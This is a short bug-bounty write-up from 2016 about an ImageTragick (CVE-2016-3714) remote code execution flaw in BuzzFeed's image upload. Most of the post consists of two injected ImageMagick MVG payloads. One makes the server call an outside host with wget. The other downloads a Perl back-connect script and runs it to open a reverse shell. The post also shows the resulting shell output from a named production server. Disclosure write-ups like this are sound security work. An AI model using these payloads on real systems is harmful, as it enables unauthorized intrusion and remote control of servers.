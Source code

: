```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected malicious by code.

**Infected URLs:**

https://www.buzzfeed.com/post

https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.98.54 port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: 199.231.211.123:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://nooobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337 ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.231.104 port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).

Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714